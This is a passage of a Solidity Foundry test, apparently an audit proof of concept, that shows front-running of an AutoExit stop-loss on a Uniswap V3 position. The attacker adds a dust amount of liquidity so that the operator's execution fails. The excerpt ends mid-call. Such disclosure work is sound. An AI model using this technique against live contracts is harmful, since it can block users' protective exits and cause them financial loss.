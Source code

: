 ```solidity
function testExploitStopLoss() external {
        vm.prank(TEST_NFT_2_ACCOUNT);
        NPM.setApprovalForAll(address(autoExit), true);

        vm.prank(TEST_NFT_2_ACCOUNT);
        autoExit.configToken(
            TEST_NFT_2,
            AutoExit.PositionConfig(
                true,
                true,
                true,
                -84121,
                -78240,
                uint64(Q64 / 100),
                uint64(Q64 / 100),
                false,
                MAX_REWARD
            )
        ); // 1% max slippage

        (, , , , , , , uint128 liquidity, , , , ) = NPM.positions(TEST_NFT_2);

        // create a snapshot of state before transformation
        uint256 snapshot = vm.snapshot();

        // --- NORMAL SCENARIO ---

        // executes correctly
        vm.prank(OPERATOR_ACCOUNT);
        autoExit.execute(
            AutoExit.ExecuteParams(
                TEST_NFT_2,
                _getWETHToDAISwapData(),
                liquidity,
                0,
                0,
                block.timestamp,
                MAX_REWARD
            )
        );

        // --- ATTACKER SCENARIO ---

        // go back to the state before transformation
        // and replay the scenario with front-running
        vm.revertTo(snapshot);

        // random attacker address
        address attacker = address(101);
        deal(address(WETH_ERC20), attacker, 10_000);

        // attacker sends dust amount to change liquidity
        vm.startPrank(attacker);
        WETH_ERC20.approve(address(NPM), 1);
        (, , uint256 amount1) = NPM.increaseLiquidity(
            INonfungiblePositionManager.IncreaseLiquidityParams(
                TEST_NFT_2,
                0,
                1,
                0,
                0,
                block.timestamp
            )
```